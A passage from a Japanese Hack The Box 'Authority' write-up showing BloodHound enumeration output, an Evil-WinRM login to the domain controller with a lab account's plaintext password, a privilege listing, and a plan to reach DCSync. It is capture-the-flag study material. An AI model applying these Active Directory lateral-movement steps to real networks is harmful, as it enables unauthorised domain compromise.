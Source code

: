 ```bash
INFO: Found 1 computers
INFO: Connecting to LDAP server: authority.authority.htb
WARNING: LDAP Authentication is refused because LDAP signing is enabled. Trying to connect over LDAPS instead...
INFO: Found 5 users
INFO: Found 52 groups
INFO: Found 3 gpos
INFO: Found 3 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: authority.authority.htb
INFO: Done in 00M 18S

```

少々見にくいが、BloodHoubnd内で、SVC_LDAPのReachable High Value Targetsを見てみると、
SVC_LDAPが、AUTHORITY.AUTHORITY.HTBにPSRemoteでき、AUTHORITY.HTBの管理者権限が取得できたら、AUTHORITY.HTBに対して、DCSyncできる
このようにして、ドメイン権限を取得できそう
![](https://i.imgur.com/h92x0fm.png)

まず、AUTHORITY.AUTHORITY.HTBにPSRemoteする
winrmで接続できるので、Evil-WinRMで接続する
```bash
└─$ evil-winrm -i authority.htb -u 'authority.htb\svc_ldap' -p 'lDaP_1n_th3_cle4r!'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_ldap\Documents> ls

```

権限確認
```bash
*Evil-WinRM* PS C:\Users\svc_ldap\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

```
# Privilege Escalation
